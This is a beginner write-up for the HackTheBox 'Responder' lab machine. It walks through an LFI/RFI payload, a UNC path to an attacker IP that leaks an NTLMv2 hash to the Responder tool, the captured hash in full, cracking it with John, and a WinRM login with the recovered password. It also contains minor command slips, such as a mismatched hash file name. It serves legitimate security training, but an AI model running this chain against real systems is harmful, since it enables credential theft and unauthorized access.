




# HackTheBox - Starting Point: Responder


## Introduction
In this write-up, we will explore the "Responder" machine from the "Starting Point" series on HackTheBox. This machine is designed for beginners and provides an introduction to basic concepts of computer security and hacking. We will follow the necessary steps to compromise the machine and obtain the required flags.

## Write-up: 

### When visiting the web service using the IP address, what is the domain that we are being redirected to? 

When visiting the web service using the IP address, we are redirected to the `unika.htb` domain.

To use it correctly, we need to add it to our `/etc/hosts` file:
```bash 
$ sudo echo "targetip unika.htb" >> /etc/hosts
```

> Answer: unika.htb

### Which scripting language is being used on the server to generate webpages? 

According to the Wappalyzer Firefox extension, the target website uses the PHP scripting language.



> Answer: PHP

### What is the name of the URL parameter which is used to load different language versions of the webpage? 

When trying to change the page language (en -> fr), we observe that in the URL, a parameter is used to display the new page.

```url
http://unika.htb/index.php?page=french.html
```
> Answer: page

### Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"  

We have three potential solutions but only one appropriate. In this example, the LFI vulnerability points to the app directory. To get interesting files, we need to go to the previous directory, so we need to use `../`

the solution is therefore:
> Answer:  ../../../../../../../../windows/system32/drivers/etc/hosts 

### Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 

The Remote File Include (RFI) vulnerability is a type of vulnerability that allows an attacker to include a file on a remote server. The attacker can exploit this vulnerability to include a malicious file from a remote server, which can be used to execute malicious code on the target server.

In this case, the solution is:
> Answer: //10.10.14.6/somefile 

###  What does NTLM stand for? 

NTLM stands for "New Technology LAN Manager". It is a suite of Microsoft security protocols that provides authentication, integrity, and confidentiality to users. NTLM is used to authenticate users in Windows networks.

> Answer: New Technology LAN Manager

###  Which flag do we use in the Responder utility to specify the network interface? 

As specified in the [github repository](https://github.com/lgandx/Responder) or when running the `sudo python3 Responder.py --help` command.
To specify the network interface we need to use the `-I` argument.

> Answer: -I

So, to find the NetNTLMv of a user, we need to use Responder tool.
```bash
sudo python3 Responder.py -I tun0
```



**Tips:** Don't forget to disable and stop the `systemd-resolved` service before run Reponder or you will have port 53 conflicts

Then, you can exploit the RFI vuln. To do that, you have just to insert your malicious url into the page parameter of unika.htb site.
```url
http://unika.htb/index.php?page=//10.10.15.64/RFI
```
When you will enter this url, you can check your console and see the NetNTLMv2 of administrator.



```bash
[SMB] NTLMv2-SSP Client   : 10.129.103.8
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:a169578c9ededdb6:C14001E753AD766CA48B48C27F924044:0101000000000000005080B3F274DB01B2AAAFCA1F49151800000000020008004C0057003000510001001E00570049004E002D0039004D00490032004A004D004C00540046004300330004003400570049004E002D0039004D00490032004A004D004C0054004600430033002E004C005700300051002E004C004F00430041004C00030014004C005700300051002E004C004F00430041004C00050014004C005700300051002E004C004F00430041004C0007000800005080B3F274DB010600040002000000080030003000000000000000010000000020000033647E737321314B19FE09980131EC92842773DABEF6474641DF4EBF230C260B0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310035002E00360034000000000000000000
```
###  There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?. 

To crack these hash we can use brute-force tools like John the ripper :

> Answer: John the ripper

###  What is the password for the administrator user?

Let's use [John the Ripper](https://github.com/openwall/john) tool

```bash
$ echo "Administrator::RESPONDER:a169578c9ededdb6:C14001E753AD766CA48B48C27F924044:0101000000000000005080B3F274DB01B2AAAFCA1F49151800000000020008004C0057003000510001001E00570049004E002D0039004D00490032004A004D004C00540046004300330004003400570049004E002D0039004D00490032004A004D004C0054004600430033002E004C005700300051002E004C004F00430041004C00030014004C005700300051002E004C004F00430041004C00050014004C005700300051002E004C004F00430041004C0007000800005080B3F274DB010600040002000000080030003000000000000000010000000020000033647E737321314B19FE09980131EC92842773DABEF6474641DF4EBF230C260B0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310035002E00360034000000000000000000" > hash

$ john -w=../../Tools/SecLists/Passwords/rockyou.txt hash.txt 
```

And we find the password : 
> Answer: badminton

###  We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on? 

First let's do a nmap scan to see wich port is used.
We need to do a nmap scan on the entire range of ports because a traditional scan port will just give to us the 80 port.

> Answer: 5985

To take a connection on the target on linux we need do use [evil-winrm](https://github.com/Hackplayers/evil-winrm) scripts

```bash
✗ evil-winrm -i 10.129.103.8 -u Administrator -p badminton
```

And find the flag :

